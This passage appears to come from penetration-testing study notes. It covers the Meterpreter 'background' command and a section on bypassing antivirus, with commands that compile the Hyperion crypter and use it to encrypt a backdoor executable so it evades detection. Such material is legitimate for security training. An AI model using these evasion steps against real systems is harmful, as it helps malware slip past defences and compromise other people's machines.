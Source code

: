 -   Meterpreter Post Exploitation Features

    -   Create a Meterpreter background session  
    
        `background`

<span id="_51btodqc88s2" class="anchor"><span id="_Toc480741825" class="anchor"></span></span>Bypassing Antivirus Software 
===========================================================================================================================

-   Crypting Known Malware with Software Protectors

    -   One such open source crypter, called Hyperion  
    
        `cp /usr/share/windows-binaries/Hyperion-1.0.zip  
        unzip Hyperion-1.0.zip  
        cd Hyperion-1.0/  
        i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc_s_sjlj-1.dll .  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll .  
        wine hyperion.exe ../backdoor.exe ../crypted.exe`
